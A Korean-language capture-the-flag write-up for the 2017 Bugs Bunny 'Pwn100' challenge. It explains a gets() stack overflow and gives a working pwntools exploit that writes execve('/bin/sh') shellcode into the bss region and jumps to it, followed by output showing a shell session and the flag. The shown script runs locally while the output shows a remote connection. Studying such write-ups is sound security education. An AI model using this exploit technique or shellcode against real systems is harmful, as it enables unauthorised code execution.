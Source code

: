 # 2017 bugsbunny - [PWN] Pwn100

## Key words

- i386
- return to shellcode

## Check Security

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

## Solution

```c
char *docopy()
{
  char s; // [sp+10h] [bp-18h]@1

  return gets(&s);
}
```

간단히 오버플로우가 발생합니다. 한 가지 주의할 점은 `gets`로 입력을 받기 때문에 `\x00`등을 만나면 문자열 받는 것을 멈추게 됩니다. 이 때문에 `bss`영역을 하나 더해서 `0x0804a001`을 만들어 주어 문자열이 멈추게 되는것을 피했습니다.

`bss` 영역에 32비트 쉘 코드를 올리고 그 쪽으로 점프를 해서 쉘을 얻었습니다.

## Exploit Code
```python
from pwn import *

target = "./pwn100"

p = process(target)

bss = 0x0804a001
plt_gets = 0x080482f0
pr = 0x080484af

payload = "A" * 0x18
payload += "A" * 4
payload += p32(plt_gets)
payload += p32(pr)
payload += p32(bss)
payload += p32(bss)

p.sendline(payload)

payload = "\x33\xd2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

p.sendline(payload)

p.interactive()
```

## Result
```
tbkim@ubuntu:~/ctf/pwnable/0013_2017_bugsbunny_pwn100$ python sol_pwn100.py 
[+] Opening connection to 54.67.102.66 on port 5252: Done
Bugs_Bunny{ohhhh_you_look_you_are_gooD_hacker_Maybe_Iknow_you:p}

[*] Closed connection to 54.67.102.66 port 5252
```
